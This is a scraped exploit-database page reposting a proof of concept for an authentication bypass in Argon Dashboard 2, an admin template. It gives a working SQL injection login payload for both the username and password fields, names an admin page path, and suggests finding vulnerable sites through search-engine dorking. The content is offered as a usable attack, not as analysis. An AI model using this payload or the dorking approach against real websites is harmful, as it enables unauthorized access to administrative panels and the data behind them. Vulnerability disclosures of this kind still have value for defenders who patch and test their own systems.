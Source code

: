 ```yaml
---
title: Argon Dashboard 2 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172606&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-31
fetch_date: 2025-10-04T11:36:54.606241
---
```


# Argon Dashboard 2 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Argon Dashboard 2 SQL Injection

2023-05-30 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172606
====================================================================================================================================
| # Title : Argon Dashboard 2 Auth By Pass Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 109.0(64-bit) |
| # Vendor : https://github.com/creativetimofficial |
| # Dork : |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] Use payload : user : 'or''='@gmail.com1 & Pass : 'or''='

[+] https://127.0.0.1/aadarshinstrumentscom/admin/examples/inquiry.php

Greetings to :=============================================================================
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm*|
===========================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)